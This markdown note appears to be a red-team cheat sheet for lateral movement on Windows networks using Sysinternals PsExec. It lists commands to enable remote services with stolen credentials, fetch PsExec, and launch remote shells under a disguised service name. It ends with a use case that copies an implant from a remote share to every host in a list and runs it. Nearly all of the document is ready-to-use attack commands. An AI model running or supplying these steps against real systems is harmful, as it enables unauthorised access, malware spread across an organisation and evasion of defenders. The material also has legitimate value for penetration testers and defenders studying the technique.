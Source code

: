 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - psexec
  - network-protocols
  - smb
  - windows
---
```

# Living off the Land

## 01 - Conditions

It requires specific services to be enabled in order for PsExec to work. Here are the commands to enable it.

```
C:\> net.exe use \\<IP>\IPC$ /user:<username> <password>
sc.exe \\<IP> config netdde start= auto
sc.exe \\<IP> config netddedsdm start= auto
sc.exe \\<IP> config clipsrv start= auto
sc.exe \\<IP> start netdde
sc.exe \\<IP> start netddedsdm
sc.exe \\<IP> start clipserv
```

## 02 - Sysinternals

### 2.1 - Copy File from WebDAV

#### 2.1.1 - Command Prompt

```
C:\> net.exe use z: \\live.sysinternals.com\tools

C:\> copy z:\PsExec64.exe .

C:\> net.exe use z: /delete
```

#### 2.1.2 - PowerShell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\PsExec64.exe .

PS C:\> Remove-PSDrive -Name Z
```

## 03 - Execute PsExec

### 3.1 - Single Machine

```
C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" cmd.exe

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" -d -c "C:\path\to\shell.exe"

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -d -c "C:\path\to\shell.exe"
```

### 3.2 - Multiple Machines

When targeting multiple computers just add the `@` sign.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> "<commands>"
```

## 04 - Use Cases

### 4.1 - Copy and Execute Implant in Multiple Machines

> [!NOTE] One administrator user account have access to all or most machines
> Use an `Administrator` user or any domain admin account that has access to all or most Windows machines.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> cmd.exe /c copy /y "\\<IP>\C$\implant.exe" "C:\Windows\Temp\"

.\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> -d -c "cmd.exe /c C:\Windows\Temp\implant.exe"
```

---
## References

- [Infinite Logins: Popping Remote Shells with Winexe & PTH-Winexe on Windows](https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/)

- [Abusing Windows Admin Shares (Lateral Movement)](https://www.youtube.com/watch?v=41MUhlHGZ4E)

- [Pass the Hash is Dead Long Live Pass the Hash](https://blog.harmj0y.net/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)
